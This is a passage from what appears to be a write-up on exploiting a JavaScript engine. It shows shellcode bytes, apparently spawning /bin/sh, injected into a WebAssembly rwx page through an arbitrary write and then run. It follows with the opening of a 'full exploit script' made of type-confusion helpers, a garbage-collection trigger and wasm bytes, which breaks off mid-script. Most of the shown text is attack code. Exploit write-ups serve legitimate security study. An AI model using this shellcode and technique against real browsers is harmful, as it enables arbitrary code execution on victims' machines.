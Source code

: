 ```javascript
}
```

#### Shellcode and profit!

Lastly, we use the arbitrary write to inject shellcode into the `rwx` region and trigger it with the wasm_instance. It looks something like this in code:

```javascript
var shellcode = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5, 144, 144, 144, 144];
for (let i = 0; i < shellcode.length; i++) {
  buffer.fill(shellcode[i], i, i+1);
}

wasm_func();
```

### Final exploit

Here is the full exploit script:

```javascript
let array_buf = new ArrayBuffer(8);
let buf_view = new DataView(array_buf);

function f2i(f) {
  buf_view.setFloat64(0, f);
  return [buf_view.getUint32(0), buf_view.getUint32(4)];
}

function i2f(a, b) {
  buf_view.setUint32(0, a);
  buf_view.setUint32(4, b);
  
  return buf_view.getFloat64(0);
}

function gc() {
  for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x1000000); }
}


function hex(a, b) {
  a = '00000000'+a.toString(16);
  b = '00000000'+b.toString(16);
  a = a.substring(a.length-8,a.length);
  b = b.substring(b.length-8,b.length);
  return '0x'+a+b;
}

gc();

const wasm_code = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
  0x01, 0x85, 0x80, 0x80, 0x80, 0x00, 0x01, 0x60,
  0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80,
  0x00, 0x01, 0x00, 0x06, 0x81, 0x80, 0x80, 0x80,
  0x00, 0x00, 0x07, 0x85, 0x80, 0x80, 0x80, 0x00,
  0x01, 0x01, 0x61, 0x00, 0x00, 0x0a, 0x8a, 0x80,
  0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80,
  0x00, 0x00, 0x41, 0x00, 0x0b
]);
var a = new String('helloworld');
```